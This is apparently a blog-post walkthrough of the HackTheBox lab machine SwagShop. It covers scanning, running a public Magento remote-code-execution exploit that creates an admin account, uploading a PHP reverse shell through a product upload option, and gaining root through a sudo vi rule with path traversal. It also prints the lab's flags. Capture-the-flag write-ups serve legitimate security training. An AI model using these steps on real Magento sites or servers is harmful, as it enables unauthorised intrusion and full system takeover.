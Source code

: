 ```yaml
---
layout: post
author: msameer234
description: "HackTheBox machine - SwagShop - walkthrough"
---
```

<br />
+=============+<br />
SCANNING<br />
+=============+<br />
 nmap 10.10.10.140<br />
	PORT   STATE SERVICE<br />
	22/tcp open  ssh<br />
	80/tcp open  http

+================+<br />
ENUMERATION<br />
+================+

 Wibsite hosted on port 80/http --- SwagShop -- Shoping Site<br />
	Using Magento CMS --- found it by wappalyzer.<br />
	<br />
	Found RCE of Magento: <br />
		command used: searchsploit Magento<br />
			Magento eCommerce - Remote Code Execution  <br />
			/usr/share/exploitdb/exploits/xml/webapps/37977.py<br />
	Copy the exploit and edit it, then set your target: <br />
		e.g. target = "http://10.10.10.140/index.php/"<br />
	and save it.<br />
	<br />
	Now execute it as:<br />
		python exploit.py<br />
		it creates an admin account with username "forme" and password "forme":<br />
		Now login at : http://10.10.10.140/index.php/admin -->> Found this by Dirbuster<br />
		I tried to upload php shell, but I couldn't.<br />
		Then I found a way to create a new product-- added an option that asks user to upload a file with extension .php<br />
	<br />
	Now make an order of the created product and upload the file php-reverse-shell.<br />
	And start multi-handler of uploaded shell on msfconsole<br />
<br />
	Here you can access your uploaded shell on server: <br />
		http://10.10.10.140/media/custom_options/order/p/h/<br />
		found media folder by dirbuster.. then did some search after uploading the shell..<br />
		Set up listener and get the reverse_shell.<br />
<br />
	Now navigate to /home/haris/<br />
<br />
	there is user.txt fie which contains user flag: a448877277e82f05e5ddf9f90aefbac8<br />
<br />
+=========================+<br />
PRIVILEGE-ESCALATION<br />
+=========================+<br />
<br />
Type Command:<br />
	sudo -l and hit enter<br />
Output:<br />
	Matching Defaults entries for www-data on swagshop:<br />
    		env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin<br />
<br />
	User www-data may run the following commands on swagshop:<br />
    		(root) NOPASSWD: /usr/bin/vi /var/www/html/*<br />
<br />
	<br />
Here we found we can access all files from "/var/www/html/" directory and vi text editor from "/usr/bin/" directory with root privileges.<br />
<br />
lets create a tty first as it is not there:<br />
python3 is installed:<br />
the command is: <br />
	python3 -c 'import pty;pty.spawn("/bin/sh")'<br />
<br />
Now, lets edit any file from /var/www/html/ directory with vi using sudo:<br />
<br />
cd /home/haris<br />
<br />
sudo vi /var/www/html/../../../etc/sudoers<br />
<br />
Now to enter into Command Mode and execute the command /bin/sh type in    :!/bin/sh     and hit enter<br />
<br />
and we got root..<br />
<br />
Navigating to /root/ directory..<br />
cd /root<br />
cat root.txt<br />
c2b087d66e14a652a3b86a130ac56721<br />
<br />
   ___<br /> ___
 /| |/|\| |\<br />
/_| ´ |.` |_\           We are open! (Almost)<br />
  |   |.  |<br />
  |   |.  |         Join the beta HTB Swag Store!<br />
  |___|.__|       https://hackthebox.store/password<br />
<br />
                   PS: Use root flag as password!<br />

<br />
And we got flag in root.txt file: c2b087d66e14a652a3b86a130ac56721
<br />
Finish..!!!<br />
<br />
